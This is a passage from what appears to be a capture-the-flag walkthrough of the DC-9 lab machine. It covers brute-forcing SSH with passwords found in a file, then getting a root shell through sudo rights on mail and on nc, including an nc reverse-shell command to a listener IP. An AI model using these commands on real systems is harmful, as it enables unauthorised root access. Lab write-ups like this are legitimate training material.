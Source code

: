 And in that directory there was a file named `passwords-found-on-post-it-notes.txt`

![](images/dc9/pass-note.png)

I then took all these password and placed them in the `password.txt` I created previously and re-started the ssh attack and then I found a new valid password which was for user `scoot`

![](images/dc9/scoots.png)

I `su` to `scoots` account and then checked it's `sudo rights` and it's allowed to run `mail` or `nc` as root.

So we can get root shell in the following manner:

__using mail__

```bash
sudo mail --exec='!/bin/sh'
```

__using nc__

```bash
sudo nc -e /bin/sh 192.168.56.1 4444
```
and you'll have root shell on your listener.

![](images/dc9/root.png)
